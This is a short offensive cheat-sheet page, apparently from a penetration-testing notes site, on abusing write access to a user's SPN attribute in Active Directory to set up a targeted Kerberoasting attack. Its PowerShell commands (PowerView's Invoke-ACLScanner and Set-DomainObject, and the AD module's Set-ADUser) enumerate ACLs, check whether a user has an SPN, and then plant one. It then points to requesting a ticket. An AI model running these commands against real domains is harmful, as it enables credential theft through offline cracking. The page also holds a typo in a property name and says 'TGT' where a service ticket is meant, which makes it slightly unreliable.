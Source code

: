 # Abusing Set SPN ACL To Kerberoasting

#### Enumerating the permission for a Group On ACLs (Using PowerView\_Dev): <a href="#enumerating-the-permission-for-a-group-on-acls-using-powerview_dev" id="enumerating-the-permission-for-a-group-on-acls-using-powerview_dev"></a>

```powershell
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferewernceName -match "RDPUsers"} 
```

#### To Check that a user has a not a SPN <a href="#to-check-that-a-user-has-a-not-a-spn" id="to-check-that-a-user-has-a-not-a-spn"></a>

```powershell
Get-DomainUser -Identity aduser | select serviceprincipalname
```

**Using Active Directory module:**

```powershell
Get-ADUser -Identity supportuser -Properties ServicePrincipalName | select ServicePrincipalName
```

#### Set a SPN for the user (must be unique for the domain): <a href="#set-a-spn-for-the-user-must-be-unique-for-the-domain" id="set-a-spn-for-the-user-must-be-unique-for-the-domain"></a>

```powershell
Set-DomainObject -Identity aduser -Set @{serviceprincipalname='ops/whatever1'}
```

**Using Active Directory module:**

```powershell
Set-ADUser -Identity support1user -ServicePrincipalNames @{Add='ops/whatever1'}
```

Now Follow the same process to Get a TGT
